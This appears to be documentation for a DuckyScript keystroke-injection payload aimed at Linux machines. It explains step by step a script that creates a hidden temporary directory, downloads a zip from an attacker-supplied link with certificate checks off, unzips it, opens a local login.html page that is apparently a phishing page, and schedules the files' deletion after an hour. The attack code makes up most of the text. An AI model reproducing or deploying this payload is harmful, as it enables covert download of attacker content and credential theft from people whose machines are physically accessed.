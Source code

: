 ## DuckyScript Documentation

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

- First, the script creates a new random directory using the mktemp command and assigns its path to the dir_name variable. The DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Create a random directory
    STRINGLN dir_name=$(mktemp -d)
    DELAY 500
```

- Next, the script sets a timer using the sleep command to delete the directory after 60 minutes (3600 seconds). The rm -rf command is used to remove the directory and its contents. The & character is used to run this command in the background, allowing the script to continue running. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Delete the directory after 60 minutes (3600 seconds)
    STRINGLN (sleep 3600 && rm -rf $dir_name) &
    DELAY 500
```

- The script then moves into the directory using the cd command and the dir_name variable. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Move into the directory
    STRINGLN cd $dir_name
    DELAY 500
```

- Next, the script downloads the zip file from the specified URL using the curl command. The LOk option is used to download the file and give it the same name as the original file. The #ZIP_LINK placeholder should be replaced with the actual URL of the zip file. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Download the zip from your own link
    STRINGLN curl -LOk "#ZIP_LINK"
    DELAY 500
```

- The script then unzips the downloaded file using the unzip command. The DELAY command is used again to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Unzip it
    STRINGLN unzip file.zip
    DELAY 500
```

- Finally, the script opens the login page using the xdg-open command and the login.html file. The exit command is used to terminate the script.
```DuckyScript
    REM Open the login page
    STRINGLN xdg-open login.html; exit;
```
